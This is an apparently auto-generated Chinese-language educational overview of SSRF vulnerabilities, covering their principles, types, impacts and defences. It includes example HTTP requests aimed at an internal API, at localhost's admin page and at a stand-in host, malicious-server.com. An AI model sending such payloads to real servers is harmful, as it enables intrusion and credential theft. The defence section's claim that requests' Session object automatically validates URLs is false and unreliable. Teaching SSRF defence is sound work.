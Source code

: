 # SSRF漏洞实战分析的基本概念

## 1. 概述

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种常见的Web安全漏洞，攻击者通过构造恶意请求，诱使服务器向内部或外部的资源发起请求，从而绕过访问控制或获取敏感信息。SSRF漏洞的危害性较高，因为它可能导致内部网络暴露、敏感数据泄露，甚至被用作跳板发起进一步的攻击。

## 2. 原理

SSRF漏洞的核心原理在于服务器在处理用户输入时，未对请求的目标地址进行充分的验证和过滤。攻击者可以通过篡改请求参数，将目标地址指向服务器内部的资源或外部的恶意服务，从而实现对服务器或内部网络的未授权访问。

### 2.1 请求伪造

SSRF漏洞通常发生在以下场景中：

- **URL参数**：应用程序接受用户输入的URL，并直接将其用于发起请求。例如，某些应用允许用户通过URL参数指定图片、文件或其他资源的来源。
- **API调用**：应用程序在内部调用API时，未对目标地址进行验证，导致攻击者可以通过构造恶意请求，将目标地址指向内部服务。
- **文件上传**：某些应用在处理文件上传时，会通过URL获取文件内容，攻击者可以通过伪造URL，使服务器从恶意地址获取文件。

### 2.2 内部资源访问

SSRF漏洞的一个主要危害是允许攻击者访问服务器内部的资源。例如，攻击者可以通过SSRF漏洞访问以下资源：

- **内部API**：服务器内部的API通常不对外暴露，但通过SSRF漏洞，攻击者可以绕过防火墙，直接访问这些API。
- **数据库**：某些数据库服务（如Redis、MongoDB）默认监听在本地端口，攻击者可以通过SSRF漏洞访问这些数据库，甚至执行未授权的操作。
- **元数据服务**：在云环境中，元数据服务（如AWS EC2的元数据服务）通常监听在特定的内部IP地址上，攻击者可以通过SSRF漏洞获取云主机的敏感信息。

### 2.3 外部资源访问

除了访问内部资源，SSRF漏洞还可以被用于访问外部的恶意服务。例如，攻击者可以通过SSRF漏洞：

- **发起DDoS攻击**：攻击者可以构造大量请求，使服务器向目标地址发起大量请求，从而发起分布式拒绝服务（DDoS）攻击。
- **数据泄露**：攻击者可以将目标地址指向恶意服务器，从而窃取服务器返回的敏感信息。

## 3. 类型

根据攻击的目标和方式，SSRF漏洞可以分为以下几种类型：

### 3.1 基本SSRF

基本SSRF是指攻击者通过篡改请求参数，将目标地址指向服务器内部的资源或外部的恶意服务。这种类型的SSRF漏洞通常发生在URL参数或API调用中。

**示例：**

```http
GET /fetch?url=http://internal-api.local/data HTTP/1.1
Host: example.com
```

在这个示例中，攻击者通过篡改`url`参数，将目标地址指向服务器内部的`internal-api.local`服务，从而获取敏感数据。

### 3.2 盲SSRF

盲SSRF是指攻击者无法直接看到服务器返回的响应，但可以通过其他方式（如时间延迟、DNS请求等）推断出请求是否成功。这种类型的SSRF漏洞通常发生在文件上传或API调用中。

**示例：**

```http
POST /upload HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "file_url": "http://malicious-server.com/exploit"
}
```

在这个示例中，攻击者通过`file_url`参数，将目标地址指向恶意服务器`malicious-server.com`，虽然无法直接看到服务器返回的响应，但可以通过观察服务器的行为（如时间延迟）推断出请求是否成功。

### 3.3 反射型SSRF

反射型SSRF是指攻击者通过篡改请求参数，将目标地址指向服务器自身，从而获取服务器的敏感信息。这种类型的SSRF漏洞通常发生在URL参数或API调用中。

**示例：**

```http
GET /fetch?url=http://127.0.0.1:8080/admin HTTP/1.1
Host: example.com
```

在这个示例中，攻击者通过篡改`url`参数，将目标地址指向服务器自身的`127.0.0.1:8080/admin`服务，从而获取管理员页面的内容。

## 4. 危害

SSRF漏洞的危害性较高，主要体现在以下几个方面：

### 4.1 内部网络暴露

通过SSRF漏洞，攻击者可以访问服务器内部的资源，如内部API、数据库、元数据服务等。这可能导致内部网络的暴露，甚至被用作跳板发起进一步的攻击。

### 4.2 敏感数据泄露

SSRF漏洞可能导致敏感数据的泄露，如云主机的元数据、数据库的凭证、内部API的响应等。这些数据可能被攻击者用于进一步的攻击或数据窃取。

### 4.3 服务滥用

SSRF漏洞可能被用于发起DDoS攻击、数据窃取、服务滥用等恶意行为。攻击者可以通过构造大量请求，使服务器向目标地址发起大量请求，从而发起分布式拒绝服务（DDoS）攻击。

### 4.4 权限提升

在某些情况下，SSRF漏洞可能被用于权限提升。例如，攻击者可以通过SSRF漏洞访问服务器内部的元数据服务，获取云主机的凭证，从而提升权限。

## 5. 防御措施

为了防止SSRF漏洞，可以采取以下防御措施：

### 5.1 输入验证

对用户输入的URL进行严格的验证，确保目标地址符合预期的格式和范围。例如，可以使用白名单机制，只允许访问特定的域名或IP地址。

### 5.2 限制访问

限制服务器对外部资源的访问，避免服务器向不可信的地址发起请求。例如，可以使用防火墙规则，限制服务器只能访问特定的IP地址或端口。

### 5.3 使用安全库

使用安全的库或框架处理URL请求，避免直接使用用户输入的URL。例如，可以使用`requests`库的`Session`对象，自动处理URL的验证和过滤。

### 5.4 监控和日志

对服务器的请求进行监控和日志记录，及时发现和响应异常的请求行为。例如，可以记录所有对外部资源的请求，并设置告警机制，及时发现潜在的SSRF攻击。

## 6. 总结

SSRF漏洞是一种常见的Web安全漏洞，攻击者通过构造恶意请求，诱使服务器向内部或外部的资源发起请求，从而绕过访问控制或获取敏感信息。通过理解SSRF漏洞的原理、类型和危害，并采取有效的防御措施，可以有效地降低SSRF漏洞的风险，保护服务器和内部网络的安全。

---

*文档生成时间: 2025-03-11 12:15:26*
